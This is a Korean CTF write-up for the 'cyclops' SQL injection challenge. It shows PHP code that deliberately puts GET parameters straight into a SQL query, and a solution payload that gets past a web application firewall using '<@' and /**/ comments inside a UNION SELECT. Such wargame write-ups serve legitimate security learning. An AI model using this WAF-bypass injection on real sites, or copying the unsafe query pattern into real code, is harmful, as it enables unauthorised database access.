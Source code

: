 # cyclops

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `prob _ . ( )`를 필터링 한다.
- 이전 문제들과 같이 웹 방화벽이 존재한다.

## 3. Solution
구글링을 통해 우회법을 찾아 해결하였다.   
https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181   


위 참고링크에서 볼 수 있듯이 `<@`를 이용하여 문제를 해결하였다.   
공격 코드는 다음과 같다.   

변수명 | 값
---|---:
`pw` | ' <@ union/**/select 'first','second



`<@`이 무슨 역할인지는 다음을 참고했다.   
https://stackoverflow.com/questions/36985926/what-does-the-operator-in-postgres-do   


그 뒤, union select 사이에 주석 /**/을 통해 우회를 해주었다.   